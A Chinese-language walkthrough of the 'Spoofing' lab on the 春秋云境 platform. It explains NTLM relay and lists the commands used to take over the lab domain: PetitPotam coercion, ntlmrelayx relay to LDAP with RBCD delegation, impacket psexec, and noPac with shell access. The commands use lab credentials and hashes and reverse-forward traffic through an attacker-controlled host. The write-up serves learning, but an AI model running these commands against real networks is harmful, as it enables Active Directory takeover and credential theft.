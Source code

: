- 春秋云境 Spoofing

* https://www.cnblogs.com/yokan/p/16102699.html
* https://daiker.gitbook.io/windows-protocol/ntlm-pian
* https://cloud.tencent.com/developer/article/2267322

  NTLM Relay 大体是什么意思呢，其实就是域中的中间人攻击，通过一些方法触发客户端进行认证，将 Net-NTLM Hash 传给我们，我们再带着这个信息去访问 DC，从而实现 Relay。而 NTLM 只是一个底层的认证协议，需要上层协议的支持，比如 smb 也能作为其上层协议，这里是对于 WebDAV(HTTP) 协议进行攻击。需要注意的是不同的协议，其需要的签名状态不同，比如：

relay 到 smb 服务要求被攻击机器不能开启 SMB 签名，普通域内机器默认不是开启的，但是域控是默认开启的。
relay 到 ldap 也要求被攻击机器不开启 ldap 签名，而默认情况下是协商签名，即如果客户端是 smb 协议的话，则默认要求签名，如果是 webadv 或 http 协议，是不要求签名的。

[WriteUp 1](https://fushuling.com/index.php/2023/10/14/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7spoofing/)

- NTLM Relay攻击时在域中通过relay到smb服务将管理组成员冲放到到一些敏感的机器上。
- [因此relay到smb服务要求被攻击机器不能开启SMB签名](https://xz.aliyun.com/t/12627)
- `python RunFinger.py -i 192.168.52.0/24` 检测 Signing: False


```sh
# 检测内网启动了 WebClient 服务的机器：
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
# 以及 check PetitPotam 是否能够进行强制触发，这里有对于强制触发的总结。
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
## 或者下面
proxychains crackmapexec smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
proxychains crackmapexec smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam

## kali连接ssh, 并将201:79转发至本地80端口
kali@192.168.1.123$ ssh -i ~/.ssh/id_rsa root@39.98.115.201 -D 0.0.0.0:1080 -R \*:79:127.0.0.1:80
## socat，让39.x.xx201:80 即 0.0.0.0:80 转发到 127.0.0.1:79，再反向转发回kali的 80 ,变相使 80 监听在 0.0.0.0
root@39.98.115.201$ nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &

## 测试, 有消息回来为正常 39.98.115.201即172.22.11.76
kali$ nc -lvvp 80
kali$ proxychains curl http://172.22.11.76:80

## 攻击, xr-desktop$为前面拿到的机器账户
proxychains python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26

## 用之前172.22.11.45上抓的机器账户XR-DESKTOP$哈希打172.22.11.26的RBCD
proxychains impacket-getST -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate administrator -hashes :6f558f06e563b300dc9f5884aca659f3  xiaorang.lab/XR-Desktop\$ -dc-ip 172.22.11.6
export KRB5CCNAME=administrator.ccache
sudo vim /etc/hosts # 把XR-LCM3AE8B.xiaorang.lab的ip加到hosts里
### 172.22.11.45 XR-Desktop.xiaorang.lab
### 172.22.11.6 xiaorang-dc.xiaorang.lab
### 172.22.11.26 XR-LCM3AE8B.xiaorang.lab

## 最后即可无密码连接
proxychains python3 psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -target-ip 172.22.11.26 -codec gbk

## 抓到一个zhanghui用户的哈希1232126b24cdf8c9bd2f788a9d7c7ed1，他在MA_Admin组，对computer能够创建对象，能向域中添加机器账户，所以能打noPac
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
## XR-DESKTOP$也是可以的，毕竟它本来就是机器账户，不用创建了
proxychains python3 noPac.py xiaorang.lab/'XR-DESKTOP$' -hashes ':35fb7e8acb21e4e22703fd8c543e0c25' -dc-ip 172.22.11.6 --impersonate Administrator -no-add -target-name 'XR-DESKTOP$' -old-hash ':35fb7e8acb21e4e22703fd8c543e0c25' -use-ldap -shell

```
